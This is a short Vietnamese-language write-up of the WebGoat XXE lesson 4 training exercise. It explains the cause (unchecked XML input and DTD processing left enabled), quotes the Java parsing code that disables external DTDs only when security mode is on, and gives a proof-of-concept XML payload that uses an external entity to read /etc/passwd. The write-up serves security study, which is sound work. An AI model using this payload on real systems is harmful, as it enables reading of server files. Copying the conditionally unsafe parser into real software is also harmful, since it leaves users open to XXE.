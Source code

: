 ```java
}

```

# (A5) XXE

# XXE 4

## Nguyên nhân lỗi

- Lập trình viên không kiểm tra đầu vào của xml
- Không tắt tính năng Document Type Definition (DTD), khiến cho kẻ tấn công có thể injection vào XML bằng cách chèn DTD.

```java
// ...
protected Comment parseXml(String xml) throws XMLStreamException, JAXBException {
    var jc = JAXBContext.newInstance(Comment.class);
    var xif = XMLInputFactory.newInstance();

    if (webSession.isSecurityEnabled()) {
      xif.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
      xif.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // compliant
    }

    var xsr = xif.createXMLStreamReader(new StringReader(xml));

    var unmarshaller = jc.createUnmarshaller();
    return (Comment) unmarshaller.unmarshal(xsr);
  }
  // ...
```

## POC

- Bắt một request khi gửi Review

![img](/img/WebGoat/(A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image.png)

- Thêm DTD vào phần xml của request để có thể đọc được file /etc/passwd

```xml
<?xml version="1.0"?>
<!DOCTYPE text [
  <!ENTITY payload SYSTEM "file:///etc/passwd">
]>
<comment>  
	<text>&payload;</text>
</comment>
```
